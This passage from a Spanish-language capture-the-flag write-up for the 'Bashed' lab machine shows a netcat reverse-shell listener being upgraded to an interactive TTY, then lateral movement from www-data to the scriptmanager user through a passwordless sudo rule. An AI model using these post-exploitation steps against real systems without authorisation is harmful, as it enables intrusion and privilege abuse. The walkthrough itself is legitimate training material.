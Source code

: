 ```bash
www-data
$ 

```

<h3 style="text-align:center" id="tty">TTY INTERACTIVA</h3>
<hr>
<br>
Para spawnear un tty interactiva seguimos el siguiente proceso.

```
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@bashed:/var/www/html/dev$ ^Z
[1]  + 4763 suspended  nc -lvnp 1234
❯ stty raw -echo; fg
[1]  + 4763 continued  nc -lvnp 1234
                                    reset xterm

www-data@bashed:/var/www/html/dev$ export TERM=xterm
www-data@bashed:/var/www/html/dev$ export SHELL=/bin/bash

```
## LATERAL MOVEMENT

<h3 style="text-align:center" id="scriptmanager">SCRIPTMANAGER</h3>
<hr>
<br>
Como www-data hacemos `sudo -l`.

```bash
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```
<br>
Podemos ejecutar cualquier comando como scriptmanager, por lo que nos podemos ejecutar una shell como él.

```bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ whoami
scriptmanager

```
<br>
Si nos dirigimos a la raíz podemos ver el directorio `scripts` del cual somos propietarios.
